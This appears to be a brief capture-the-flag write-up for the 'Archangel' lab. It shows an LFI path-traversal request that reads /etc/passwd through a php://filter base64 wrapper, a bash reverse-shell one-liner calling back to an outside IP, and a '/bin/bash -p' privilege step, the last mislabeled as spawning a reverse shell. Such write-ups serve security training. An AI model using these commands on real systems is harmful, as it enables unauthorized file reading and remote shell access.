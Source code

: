 # Archangel
<img src="./imgs/angel.thm.png">
<img src="./imgs/ffuf.png">

I added the following line to `/etc/hosts`.
```
<IP>     mafialive.thm
```

Then I went there and got the first flag. Then I realized that I can do `LFI` so I got the php page using base64 wrapper and got the second flag.

```
curl http://mafialive.thm/test.php?view=php://filter/convert.base64-encode/resource=/var/www/html/development_testing/%5c..%5c..%5c..%5c..%5c..%5c..%5c..%5c/etc/passwd

http://mafialive.thm/test.php?view=/var/www/html/development_testing/.././.././.././.././.././.././.././.././../etc/passwd

bash -i >& /dev/tcp/10.2.116.12/3333 0>&1

```

```
/bin/bash -p

to spawn a reverse-shell
```